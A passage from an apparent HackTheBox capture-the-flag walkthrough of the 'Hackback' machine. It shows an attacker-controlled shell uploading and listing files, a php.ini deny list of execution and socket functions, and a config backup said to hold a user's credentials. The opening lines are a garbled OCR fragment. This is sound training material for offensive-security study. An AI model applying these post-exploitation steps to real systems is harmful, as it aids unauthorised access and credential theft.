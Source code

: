     .md>
      <head>
        <meta http-equiv="refresh" content="0; URL='/'" />
      </head>
      <body>
      </body>
    <.md>

    hackback> upload site site.txt
    hackback> dir
    Array
    (
        [0] => .
        [1] => ..
        [2] => index.md
        [3] => site.txt
        [4] => webadmin.php
    )
    1
    hackback> type site.txt
    twitter
    paypal
    facebook
    hackthebox



#### Enumeration

Armed with this shell, I can more easily enumerate the box. I'll check
out the `php.ini` file at `..\..\..\..\..\Progra~1\php\v7.2\php.ini`.
There I'll find this line:



    disable_functions = phpinfo,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,fsockopen,socket_create,socket_connect,eval



That explains why I can't get a webshell to run, as all of the execution
commands are restricted, as well as the socket ones.

I'll also look up a directory from the current, and in the root of the
admin page, see `web.config.old`, which has creds for the user simple in
it:



    > dir ..
    Array
    (
        [0] => .
        [1] => ..
        [2] => 2bb6916122f1da34dcd916421e531578
        [3] => App_Data
        [4] => aspnet_client
        [5] => css
        [6] => img
        [7] => index.php
        [8] => js
        [9] => logs
        [10] => web.config
        [11] => web.config.old
    )
    1
